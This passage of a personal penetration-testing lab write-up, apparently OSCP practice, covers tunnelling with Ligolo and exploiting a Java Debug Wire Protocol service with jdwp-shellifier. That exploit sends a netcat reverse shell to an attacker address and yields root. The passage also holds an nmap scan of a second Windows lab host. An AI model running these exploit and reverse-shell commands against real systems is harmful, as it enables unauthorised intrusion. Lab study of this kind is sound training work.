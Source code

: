 	# Connect to Proxy via Ligolo Agent on Victim
	dev@oscp:home/dev$ ./agent -connect 192.168.45.156:443 -ignore-cert
	
	# Start tunnel on Proxy Server
	ligolo>> session
	ligolo>> start

	# Add route to new tunnel
	kali@kali:~$ sudo ip route add 240.0.0.1/32 dev ligolo2
	```
- Scan the port to check whats running
	- `sudo nmap 240.0.0.1 -sV -p8000`
	- JDWP, Java Debug Wire Protocol version 11.0 11.0.16
- Find exploit: https://github.com/IOActive/jdwp-shellifier
	- Run with Python2
	- `python2 jdwp-shellifier.py -t 240.0.0.1 -p 8000 --cmd "busybox nc 192.168.45.156 4444 -e /bin/bash"`
	- Reference: https://www.ddosi.org/oscp-cheat-sheet-2/#JDWP
	- Once waiting for prompt, use `nc -nv 192.168.158.150 5000` to trigger
## Privilege Escalation + Flag
- Get reverse shell as root via JDWP exploit
- Flag in /root
	![[Pasted image 20250217191803.png]]
# GUST - 192.168.158.151
## Initial Scan
```c
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-17 12:58 +08
Nmap scan report for 192.168.158.151
Host is up (0.0070s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE          VERSION
80/tcp   open  http             Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows
3389/tcp open  ms-wbt-server    Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: OSCP
|   NetBIOS_Domain_Name: OSCP
|   NetBIOS_Computer_Name: OSCP
|   DNS_Domain_Name: OSCP
|   DNS_Computer_Name: OSCP
|   Product_Version: 10.0.19041
|_  System_Time: 2025-02-17T05:00:16+00:00
|_ssl-date: 2025-02-17T05:00:21+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=OSCP
| Not valid before: 2025-02-11T22:06:42
|_Not valid after:  2025-08-13T22:06:42
8021/tcp open  freeswitch-event FreeSWITCH mod_event_socket
```
## Initial Enumeration
- GoBuster on the HTTP site, nothing found
- Port 8021 looks interesting...
	- Look for exploits